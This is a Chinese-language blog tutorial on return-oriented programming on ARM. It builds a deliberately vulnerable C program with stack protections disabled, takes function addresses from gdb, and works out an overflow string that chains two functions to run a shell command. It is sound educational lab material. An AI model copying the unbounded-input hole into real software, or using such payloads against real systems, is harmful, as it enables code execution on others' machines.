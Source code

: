 ```yaml
---
layout: post
title: ROP Exploit实验 1
slug: ROP Exploit实验 1
category: iOS Exploitation
published: true
---
```


### 概述

本文主要是通过简单的实验来弄清楚ROP Exploit的一些基本原理。不正之处欢迎指正。

简单回顾下上一篇[ARM环境下的漏洞利用](http://madmark.cc/2017/11/11/ARM_Exploitation_intro/)的关键知识点：

通过运行程序后输入一个指定格式的字符串，利用某些函数不检查字符串长度的缺陷，栈溢出后覆盖到函数入口push到栈上的`PC`值。所以该值`pop`回`PC`的时候，读取到了你输入的字符串中的值。将目标函数入口地址替换到你输入字符串中的指定位置，使`PC`读取该目标函数入口地址即可实现非正常跳转。

但是通常不太可能只是简单的跳转到一个指定函数，而是需要跳转多个函数来达到漏洞利用的目的。即跳转A再跳转B再跳转C等等。如何实现呢？我们已经能跳转到一个函数，如何在这个函数中使`PC`包含其他函数入口的地址呢？

**实验环境：**`iPhone4`	`iOS7.1.2`

### 一个有漏洞的程序

先打造一个存在漏洞的程序，这个程序有两个我们可以利用的函数`change`和`secret`

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char command[] = "date";

void change() {
	strcpy(command, "ls");
	printf("command changed.\n");
}

void secret() {
	printf ("executing command ...\n");
	system(command);
}

int main() {
	
	printf("Welcome to ROPLevel 1 for ARM!\n");
	char buff[12];
	scanf("%s", buff);
	
	return 0;
}

```

**编译的时候仍然需要关掉thumb模式和一些保护特性。**

``` 
# clang roplevel1.c -isysroot /var/iPhoneOS8.1.sdk/ -mno-thumb -fno-pie -fno-stack-protector -o roplevel1
```

仍旧是利用了`scanf`函数的缺陷。`change`和`secret`两个函数按理不会被执行到。我们的目的，就是在输入字符串后，先执行`change`函数，将`command`替换为`ls`，随后执行`secret`函数来通过`system()`函数执行命令。

###原理探究

跳转到`change`函数我们已经可以做到了，关键是跳转到`secret`。那么问题就变成执行完`change`函数时如何改变`PC`寄存器的值，使它替换成`secret`函数的入口地址。函数的结尾一定是通过`pop`来将值推入`PC`，执行到这步之前，栈上只有函数入口处保存的`r7`和`PC`，也就是要改变入栈时候的`PC`的值！

那么，首先我们在跳转到`change`函数的时候，不让它执行`push {r7, PC}`的操作，然后在栈上存放一个`r7`（可以是随意的值）和一个`secret`的函数地址，使这个函数在`pop {r7, PC}`后，`PC`中的值是`secret`函数地址。

**理一下思路：**

1. 解决不执行`change`函数入口的`push`。我们可以在跳转到`change`函数的时候直接使用该函数的第二条指令的地址。这样不会影响程序的执行，只是会影响函数的返回。

2. 栈上需要两个分别`pop`回`r7`和`PC`的值。这个我们可以在输入的字符串中设置。因为栈上的数据每次读取都是4个字节，我们输入的字符串溢出的长度只要刚好覆盖到栈上两个4字节的数据即可。

一图胜千言（随便画的），最终我们输入的字符串要满足这样的条件：

![IMG](../assets/images/stack_1.jpg)

当输入完字符串buff溢出后，将会执行`pop {r7, lr}`，这样就会把`change`的第二条指令地址（图上`change().addr`即指第二条指令）和garbage弹回`r7`和`lr`。`change`函数执行到最后也会有个pop的动作，此时，栈上的`secret`地址会被弹回到`lr`中（至于`r7`会被弹入什么我们暂且不关心），这样就达到了我们的目的: main -> change ->secret

### 实验

1. 通过GDB找到两个函数的入口地址，记得`change`函数需要用到的是第二条指令的地址：

 ```
 (gdb) disassemble secret
Dump of assembler code for function secret:
0x0000be94 <secret+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be98 <secret+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be9c <secret+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000bea0 <secret+12>:  91 0f 0b e3                   movw	r0, #49041	; 0xbf91
0x0000bea4 <secret+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000bea8 <secret+20>:  51 00 00 eb                   bl	0xbff4
0x0000beac <secret+24>:  30 10 0c e3                   movw	r1, #49200	; 0xc030
0x0000beb0 <secret+28>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000beb4 <secret+32>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000beb8 <secret+36>:  01 00 a0 e1                   mov	r0, r1
0x0000bebc <secret+40>:  4e 00 00 eb                   bl	0xbffc
0x0000bec0 <secret+44>:  00 00 8d e5                   str	r0, [sp]
0x0000bec4 <secret+48>:  07 d0 a0 e1                   mov	sp, r7
0x0000bec8 <secret+52>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) disassemble change
Dump of assembler code for function change:
0x0000be50 <change+0>:  80 40 2d e9                   push	{r7, lr}
0x0000be54 <change+4>:  0d 70 a0 e1                   mov	r7, sp
0x0000be58 <change+8>:  08 d0 4d e2                   sub	sp, sp, #8	; 0x8
0x0000be5c <change+12>:  30 00 0c e3                   movw	r0, #49200	; 0xc030
0x0000be60 <change+16>:  00 00 40 e3                   movt	r0, #0	; 0x0
0x0000be64 <change+20>:  7c 1f 0b e3                   movw	r1, #49020	; 0xbf7c
0x0000be68 <change+24>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be6c <change+28>:  05 20 00 e3                   movw	r2, #5	; 0x5
0x0000be70 <change+32>:  5d 00 00 eb                   bl	0xbfec
0x0000be74 <change+36>:  7f 1f 0b e3                   movw	r1, #49023	; 0xbf7f
0x0000be78 <change+40>:  00 10 40 e3                   movt	r1, #0	; 0x0
0x0000be7c <change+44>:  04 00 8d e5                   str	r0, [sp, #4]
0x0000be80 <change+48>:  01 00 a0 e1                   mov	r0, r1
0x0000be84 <change+52>:  5a 00 00 eb                   bl	0xbff4
0x0000be88 <change+56>:  00 00 8d e5                   str	r0, [sp]
0x0000be8c <change+60>:  07 d0 a0 e1                   mov	sp, r7
0x0000be90 <change+64>:  80 80 bd e8                   pop	{r7, pc}
End of assembler dump.
(gdb) q
 ```
OK，两个地址分别是`0x0000be94`和`0x0000be54`

2. 定制攻击字符串进行Exploit
字符串的定制，可以先和上一篇一样，输入类似`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH`来尝试，崩溃后查看CrashReporter中的信息来确定哪几个字符被`pop`回`PC`了。

```
Date/Time:           2017-12-03 23:31:50.416 +0800
OS Version:          iOS 7.1.2 (11D257)
Report Version:      104

Exception Type:  EXC_BAD_ACCESS (SIGSEGV)
Exception Subtype: KERN_INVALID_ADDRESS at 0x46464646
Highlighted Thread:  0

Backtrace not available

Unknown thread crashed with ARM Thread State (32-bit):
    r0: 0x00000000    r1: 0x00000000      r2: 0x00000100      r3: 0x00002060
    r4: 0x00000000    r5: 0x00000000      r6: 0x00000000      r7: 0x45454545
    r8: 0x27dff888    r9: 0x00000001     r10: 0x00000000     r11: 0x00000000
    ip: 0x3d834bd8    sp: 0x27dff888      lr: 0x0000bf08      pc: 0x46464646
  cpsr: 0x40000010
```
可以看到，弹回`PC`的值是`0x46464646`也就是字符`FFFF`。所以只要替换掉`FFFF`就可以，后面紧跟一个4字节的任意字符，我们就用0x41414141，再跟一个`secret`函数地址。最终的字符串是这样的：
`AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00`。因为是小端(little endian)的关系，地址都是逆向输入的。最后，使用`printf`灌入字符串，执行程序。

```
Jins:~/Code root# printf "AAAABBBBCCCCDDDDEEEE\x54\xbe\x00\x00\x41\x41\x41\x41\x94\xbe\x00\x00" | ./roplevel1
Welcome to ROPLevel 1 for ARM!
command changed.
executing command ...
hello  hello.c	roplevel1  roplevel1.c	vuln  vuln.c
Bus error: 10
Jins:~/Code root#

```
可以看到`ls`命令执行了。至此，我们的实验已经成功了。

### 总结

简单来说，这个ROP实验就是通过栈溢出，将跳转地址覆盖到栈上保存的函数返回地址后达到非正常跳转的目的。

在真实的情况下不会没这么简单，一般都需要连接好几个函数，还需要做栈修复之类的工作，可以看到实验最后还是报错退出来，正常来说应该要使程序正常执行。这篇主要是讲ROP的工作原理，所以暂时不涉及其他的。

最后一点是关于写文章的心得。自己看书跟着做实验的时候觉得自己已经明白了，但一写文章，需要理清思路的时候就会发现很多细节之前其实都没想明白。写完就觉得整个思路清晰不少，收获更是不少！

### 参考

[BillyEllis's blog](http://billyellis.net)

另外我还推荐这个博客作者[@bellis1000](https://twitter.com/bellis1000)前段时间出的一本书，书名及链接:[《Beginner's Guide to Exploitation on ARM》](http://zygosec.com/Products/)
